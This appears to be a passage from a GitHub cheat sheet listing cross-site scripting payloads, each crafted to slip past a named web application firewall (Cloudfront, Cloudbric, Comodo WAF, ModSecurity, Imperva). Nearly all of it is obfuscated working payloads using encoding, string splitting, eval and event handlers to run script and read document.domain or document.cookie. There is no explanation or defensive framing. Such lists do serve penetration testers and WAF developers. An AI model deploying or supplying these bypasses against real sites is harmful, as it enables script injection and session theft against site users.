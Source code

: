 ```
<img src=x onerror="a=()=>{c=0;for(i in self){if(/^a[rel]+t$/.test(i)){return c}c++}};self[Object.keys(self)[a()]](document.domain)">

<j id=x style="-webkit-user-modify:read-write" onfocus={window.onerror=eval}throw/0/+name>H</j>#x

'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>

'"><img/src/onerror=.1|alert``>

:javascript%3avar{a%3aonerror}%3d{a%3aalert}%3bthrow%2520document.cookie

Function("\x61\x6c\x65\x72\x74\x28\x31\x29")();
```

2. Cloudfront

```
">%0D%0A%0D%0A<x '="foo"><x foo='><img src=x onerror=javascript:alert(`cloudfrontbypass`)//'>

<--`<img%2fsrc%3d` onerror%3dalert(document.domain)> --!>

"><--<img+src= "><svg/onload+alert(document.domain)>> --!>
```

3. Cloudbric

```
<a69/onclick=[1].findIndex(alert)>pew
```

4. Comodo WAF

```
<input/oninput='new Function`confir\u006d\`0\``'>

<p/ondragstart=%27confirm(0)%27.replace(/.+/,eval)%20draggable=True>dragme
```

5. ModSecurity

```
<a href="jav%0Dascript&colon;alert(1)">
```

6. Imperva

```
<input id='a'value='global'><input id='b'value='E'><input 'id='c'value='val'><input id='d'value='aler'><input id='e'value='t(documen'><input id='f'value='t.domain)'><svg+onload[\r\n]=$[a.value+b.value+c.value](d.value+e.value+f.value)>

<x/onclick=globalThis&lsqb;'\u0070r\u006f'+'mpt']&lt;)>clickme

<a/href="j%0A%0Davascript:{var{3:s,2:h,5:a,0:v,4:n,1:e}='earltv'}[self][0][v+a+e+s](e+s+v+h+n)(/infected/.source)" />click

<a69/onclick=write&lpar;&rpar;>pew

<details/ontoggle="self['wind'%2b'ow']['one'%2b'rror']=self['wind'%2b'ow']['ale'%2b'rt'];throw/**/self['doc'%2b'ument']['domain'];"/open>

<svg onload\r\n=$.globalEval("al"+"ert()");>

<svg/onload=self[`aler`%2b`t`]`1`>

%3Cimg%2Fsrc%3D%22x%22%2Fonerror%3D%22prom%5Cu0070t%2526%2523x28%3B%2526%2523x27%3B%2526%2523x58%3B%2526%2523x53%3B%2526%2523x53%3B%2526%2523x27%3B%2526%2523x29%3B%22%3E

<iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';>
```